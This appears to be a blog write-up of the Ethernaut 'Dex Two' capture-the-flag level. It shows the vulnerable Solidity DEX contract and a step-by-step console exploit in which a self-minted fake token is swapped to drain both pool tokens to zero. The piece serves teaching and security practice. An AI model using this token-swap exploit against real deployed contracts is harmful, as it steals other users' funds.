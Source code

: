 ```yaml
---
layout: post
title: Ethernaut - 23. Dex Two
date:  2022-08-30
tags: ethernaut solidity
---
```


## Difficulty: 🌕🌕🌑🌑🌑
>As we've repeatedly seen, interaction between contracts can be a source of unexpected behavior.<br />
Just because a contract claims to implement the ERC20 spec does not mean it's trust worthy.<br />
Some tokens deviate from the ERC20 spec by not returning a boolean value from their `transfer` methods. See Missing return value bug - At least 130 tokens affected.<br />
Other ERC20 tokens, especially those designed by adversaries could behave more maliciously.<br />
If you design a DEX where anyone could list their own tokens without the permission of a central authority, then the correctness of the DEX could depend on the interaction of the DEX contract and the token contracts being traded.


## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';
import '@openzeppelin/contracts/access/Ownable.sol';

contract DexTwo is Ownable {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor() public {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }

  function add_liquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  } 

  function getSwapAmount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
    SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public returns(bool){
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

## Writeup
1. Get new instance.
2. Create a ERC20 contract. 
    ``` solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/release-v3.2.0/contracts/token/ERC20/IERC20.sol";
    import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/release-v3.2.0/contracts/token/ERC20/ERC20.sol";

    contract MyToken is ERC20 {
      constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
            _mint(msg.sender, initialSupply);
      }
    }
    ```
2. Compile & Deploy
    <img src="https://i.imgur.com/P8R2Qv6.png" alt="remix" style="width:300px;"/>
3. Approve & Transfer
    <img src="https://i.imgur.com/i2cqcVJ.png" alt="remix2" style="width:400px;" />
4. Store addresses to `const` (in console)
    ``` javascript

    const t1 = await contract.token1()
    const t2 = await contract.token2()
    const myToken = '0x00FadFCC1530338317Af59DC0544C4E5447918A9'

    ```
5. Get balance
    ``` javascript

    await contract.balanceOf(t1, contract.address).then(v=>v.toString())
    // 100

    await contract.balanceOf(t2, contract.address).then(v=>v.toString())
    // 100

    await contract.balanceOf(myToken, contract.address).then(v=>v.toString())
    // 100

    ```
6. Swap 
    ``` javascript

    await contract.swap(myToken, t1, 100)

    await contract.balanceOf(myToken, contract.address).then(v=>v.toString())
    // 200

    await contract.getSwapAmount(myToken, t2, 200).then(v=>v.toString())
    // 100 
    // we can swap all myToken to get all t2 token!

    await contract.swap(myToken, t2, 200);

    ```
7. Check tokens' balance
    ``` javascript

    await contract.balanceOf(t1, contract.address).then(v=>v.toString())
    // '0'

    await contract.balanceOf(t2, contract.address).then(v=>v.toString())
    // '0'

    ```
8. Submit instance ξ( ✿＞◡❛)